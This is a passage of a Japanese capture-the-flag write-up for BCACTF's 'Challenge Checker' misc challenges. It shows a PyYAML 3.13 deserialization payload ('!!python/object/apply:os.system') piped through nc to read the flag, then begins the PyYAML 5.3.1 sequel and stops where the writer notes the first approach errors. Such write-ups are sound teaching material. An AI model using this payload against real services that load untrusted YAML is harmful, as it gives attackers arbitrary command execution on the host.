 <br>

requirements.txtの中身：

<pre>
PyYAML==3.13
termcolor==1.1.0
</pre>

<br>

### Solution
<pre>
$ echo '!!python/object/apply:os.system ["cat flag.txt"]' | nc misc.bcactf.com 49153
Paste in your chall.yaml file, then send an EOF:
bcactf{3d_r3ally_l1k35s_his_yams_c00ked_j5fc9g}
</pre>

<br />

Flag: `bcactf{3d_r3ally_l1k35s_his_yams_c00ked_j5fc9g}`



<br /><br />
<br /><br />
## [Misc]: Challenge Checker 2 (200 points)
- - -
### Challenge
> New version, better security, right?
<br /><br />
nc misc.bcactf.com 49154
<br /><br />
Hint1: What's changed?

Attachment:

- chall.yaml
- requirements.txt
- verify.py

<br>

requirements.txtの中身：

<pre>
PyYAML==5.3.1
termcolor==1.1.0
</pre>

<br>

### Solution
PyYAMLのバージョンが 5.3.1 にあがっています。

1のチャレンジ(前述)と同じ手順でやろうとすると、以下のエラーが出ます。
